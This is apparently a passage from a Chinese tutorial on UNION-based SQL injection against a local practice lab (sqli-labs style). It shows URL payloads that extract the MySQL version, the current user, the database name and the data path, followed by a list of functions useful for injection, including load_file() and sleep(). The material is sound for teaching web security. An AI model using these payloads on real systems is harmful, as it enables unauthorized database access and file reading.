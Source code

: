 ```vhdl
?id=0' union select 1,2,version() --+
```

得到数据库版本位5.5.53
在这里插入图片描述查当前用户：

```sql
?id=0' union select 1,2,user() --+
```

得到当前用户名为root,应该是管理员用户
在这里插入图片描述查当前数据库：

```sql
?id=0' union select 1,2,database() --+
```

得到当前数据库名为`security`
在这里插入图片描述查文件所在路径

```sql
?id=0' union select 1,2,@@datadir --+
```

得到路径为D:\phpstudy\MySQL\data
在这里插入图片描述这里再补充一些重要的函数

```sql
version()				# mysql 数据库版本
database()				# 当前数据库名
user()					# 用户名
current_user()			# 当前用户名
system_user()			# 系统用户名
@@datadir				# 数据库路径
@@version_compile_os	# 操作系统版本
```

还是查询数据库数据，MySQL里有一个默认数据库information_schema，通过这个数据库可以使得查询事半功倍。
还有一些重要的字符串函数需要结合使用

```sql
length()	        	# 返回字符串的长度
substring()						
substr()	        	# 截取字符串
mid()
left()			        # 从左侧开始取指定字符个数的字符串
concat()	     	   	# 没有分隔符的连接字符串
concat_ws()      		# 含有分割符的连接字符串
group_conat()   		# 连接一个组的字符串
ord()					# 返回ASCII 码
ascii()	
hex()					# 将字符串转换为十六进制
unhex()					# hex 的反向操作
md5()					# 返回MD5 值
floor(x)				# 返回不大于x 的最大整数
round()					# 返回参数x 接近的整数
rand()					# 返回0-1 之间的随机浮点数
load_file()				# 读取文件，并返回文件内容作为一个字符串
sleep()			        # 睡眠时间为指定的秒数
if(true,t,f)			# if 判断
find_in_set()			# 返回字符串在字符串列表中的位置
benchmark()				# 指定语句执行的次数
```
